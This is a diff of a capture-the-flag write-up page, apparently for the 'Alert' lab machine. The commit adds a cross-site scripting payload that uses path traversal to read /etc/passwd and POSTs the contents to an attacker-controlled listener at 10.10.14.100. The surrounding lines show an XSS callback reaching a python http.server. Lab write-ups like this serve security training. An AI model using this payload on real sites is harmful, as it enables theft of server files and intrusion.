

Before and after one commit to l0n3m4n/Writeups, a Markdown page: easy/alert/alert.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/easy/alert/alert.md
+++ b/easy/alert/alert.md
@@ -171,9 +171,27 @@ $ python3 -m http.server 8888
 Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
 10.10.11.44 - - [06/Jan/2025 00:02:00] "GET /grabber.php?c=%27+document.domain&lt;/script&gt; HTTP/1.1" 200 -
 ```
-### Enumerating APIs
 ### Vulnerability Identification
+```js
+<script>
+fetch("http://alert.htb/messages.php?file=../../../../etc/passwd")
+    .then(response => response.text())  // Corrected the arrow function and response parsing
+    .then(data => {
+        // Replace 'ip' with your local IP address
+        fetch("http://10.10.14.100:8888/", {  // Replace with your actual IP address
+            method: "POST",
+            headers: {
+                'Content-Type': 'text/plain',  // Ensure the content type is correct
+            },
+            body: data  // Send the fetched data as the body of the POST request
+        });
+    })
+    .catch(error => {
+        console.error("Error:", error);  // Handle errors
+    });
+</script>
 
+```
 ## Exploitation
 ### Post Exploitation Enumeration
 ### Lateral Movement
````
